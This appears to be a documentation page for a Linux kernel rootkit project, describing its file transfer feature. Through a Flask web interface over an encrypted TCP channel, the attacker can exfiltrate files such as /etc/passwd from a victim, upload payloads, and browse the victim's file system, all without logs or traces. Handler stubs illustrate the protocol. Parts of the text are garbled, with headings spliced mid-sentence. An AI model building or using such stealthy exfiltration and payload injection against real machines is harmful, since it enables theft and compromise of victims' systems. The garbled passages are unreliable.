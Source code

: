 \page transfer File Transfer

\tableofcontents

The rootkit integrates a complete **file transfer** mechanism between the attacking machine and the victim machine. This system allows exfiltrating and injecting files quickly, simply, and discreetly. The whole system is controllable with a few clicks from the graphical interface. Two functionalities are offered:
- *download*: exfiltration of a file from the victim
- *upload*: injection of a file from the attacker to the victim

## 1. 🛠️ Overview

Files can be downloaded from the victim machine to the attacker.

The system relies on two complementary components:

- a **web interface** allowing the attacker to navigate, send or receive files,## Upload

- a **kernel** part, capable of reading or writing on the remote file system in a completely stealthy manner.

Files can be uploaded from the attacker to the victim machine.

The protocol is simple:

1. A command is sent to the rootkit via TCP (`upload` or `download`),## Protocol

2. The rootkit prepares the transfer and responds `READY`,

3. The file is then transmitted in encoded format (hexadecimal) in packets,Transfers use the encrypted TCP channel with chunking for large files.

4. Once finished, the module releases the used memory.

Transfers use hexadecimal format to ensure maximum network compatibility while simplifying analysis and processing.

```c
// === UPLOAD ===
upload_handler("/tmp/payload.bin 2048", TCP);
// => READY
handle_upload_chunk(data_chunk1, 1024, TCP);
handle_upload_chunk(data_chunk2, 1024, TCP);
// => File written to disk by the rootkit

// === DOWNLOAD ===
download_handler("/etc/passwd", TCP);
// => SIZE 1234
download("READY");
// => Content sent in hexadecimal
```

## 2. 📤 Upload

### 2.1 Web Interface

The upload part of the file transfer system allows choosing a local file and specifying its target path on the victim. Once validated, the Flask web interface:
- reads the file into memory,
- prepares an `upload <remote_path> <size>` command,
- sends the file in **successive chunks** upon receiving the `READY` keyword from the rootkit.

Each step is controlled and confirmed via a message system.

### 2.2 Rootkit

Upon receiving the `upload` command, the rootkit:
- dynamically allocates a memory buffer,
- initializes the target path,
- responds `READY` to the Flask interface,
- then receives data via `handle_upload_chunk()` in several pieces until the announced size is reached.

Once the file is complete, it's written to disk, and resources are automatically cleaned up.

```c
// upload_handler: initializes upload
int upload_handler(char *args, enum Protocol protocol) {
    // Parse path and size
    // Allocate memory with vmalloc
    // Respond "READY" if everything is ready
}

// handle_upload_chunk: receives data
int handle_upload_chunk(const char *data, size_t len, enum Protocol protocol) {
    // Copy chunks into buffer
    // Once complete: write file to disk
}
```

## 3. 📥 Download

### 3.1 Web Interface

Reverse upload (download) is triggered from the graphical interface through the file explorer. Once launched:
- the rootkit sends a `SIZE <bytes>` message,
- the interface responds `READY`,
- the file is received and saved in a secure folder (`downloads`).

### 3.2 Rootkit

During a download, the rootkit:
- opens the requested file,
- reads its entire content into memory,
- encodes everything in hexadecimal,
- waits for the `READY` command to launch transfer to the attacker.

Everything is done silently, without visible logs or traces in user file systems.

```c
// download_handler: prepares reading
int download_handler(char *args, enum Protocol protocol) {
    // Opens file
    // Reads content into memory
    // Responds with "SIZE <size>"
}

// download: sends file after "READY"
int download(const char *command) {
    // Encode in hexadecimal
    // Send buffer via send_to_server_raw
    // Free allocated memory
}
```

## 4. 🗂️ File Explorer

The `/explorer` page of the web interface allows remotely navigating the **victim's file system**, relying on successive `ls` commands sent via the rootkit. Navigation is not persistent: at each request, a command is sent to the rootkit to list the current directory content. It's only when using the **reverse shell** that command sending becomes persistent.

The current path is maintained on the interface side (frontend) to reconstruct a coherent navigation experience. Each click on a folder sends a new `ls <path>` command to the rootkit, which returns the list of files or subdirectories present at that location.

This functionality allows the attacker to:
- quickly locate interesting files on the victim,
- initiate a download (`download`) or upload to a specific directory,
- analyze the remote system structure without leaving apparent traces on the user side.

A history of successive file transfers is also available.

## 5. 🔐 Security

All network exchanges occur via the already encrypted TCP channel (AES). Using hexadecimal format avoids binary transport problems while simplifying processing on the rootkit side. Transfers are atomic: one file at a time, with size control, acknowledgment of receipt, and strict memory management.

## 6. 💡 Improvement Ideas

- Add checksum (SHA256) to verify integrity
- Light compression (gzip, LZ4) to reduce transfer size

<img 
  src="logo_no_text.png" 
  style="
    display: block;
    margin: 100px auto;
    width: 30%;
    overflow: hidden;
  "
/>

